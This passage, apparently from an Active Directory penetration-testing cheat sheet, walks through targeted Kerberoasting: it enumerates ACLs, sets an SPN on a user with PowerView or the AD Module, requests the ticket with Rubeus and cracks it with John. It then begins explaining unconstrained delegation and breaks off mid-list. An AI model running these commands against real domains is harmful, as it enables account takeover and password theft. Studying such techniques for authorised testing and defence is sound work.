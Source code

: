 ### Tool

**1.Enum possible Users**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Find-InterestingDomainAcl -ResolveGUIDs | ?{$_IdentityReferenceName -match "UsernameORGroupname"}
</strong><strong>
</strong><strong>Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
</strong></code></pre>

**2.Usinger PowerView dev, see if user alread has an SPN set**

{% code overflow="wrap" %}
```powershell
Get-DomainUser -Identity user1 | select ServicePrincipalName

Using AD Module:
Get-ADUser -Identity user1 -properties ServicePrincipalName | select ServicePrincipalName
```
{% endcode %}

**3. If not, set an SPN (must be unique for the domain) - PowerView dev**

{% code overflow="wrap" %}
```powershell
Set-DomainObject -Identity user1 -Set @{serviceprincipalname='domain/myuniquespn'}

Using AD Module
Set-ADuser -identity user1 -serviceprincipalname @{Add='domain/myuniquespn'} -verbose
```
{% endcode %}

**4. Request a TGS for the SPN**

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe kerberoast /user:user1 /simple /outfile:setspn.txt
.\Rubeus.exe kerberoast /user:user1 /simple /rc4opsec /outfile:setspn.txt
```
{% endcode %}

**4. Crack it with John/Hashcat/tsrepcrack**

{% code overflow="wrap" %}
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\setspn.txt
```
{% endcode %}



## 🎭 Kerberos Unconstrained Delegation / Impersonation

### Description

* Kerberos Delegation allows the "reuse end-user credentials to access resoruce hosted on a different server"
* Is typically useful in multi-tier service or applications where Kerberos Double Hop is required\
  Double Hop: First Hop is where the user authenticates to, is not allowed to delegate the credentials somewhere else.&#x20;
* For example: A user authenticates to a websserver and the webserver makes a request to a DB server. The webserver can request access to resources (all or some resources, dependending on the delegation) on the DB server as the user - not with the service account from the webserver => Impersonating the user and the webserver can act as the user on the DB server.\
  Note: The service account for the web service must be trusted for delegation to be able to request as a user
* Unconstrained Delegation: The Server can connect to any resource in the domain, using the authenticated user account
* Two Types of Kerberos Delegation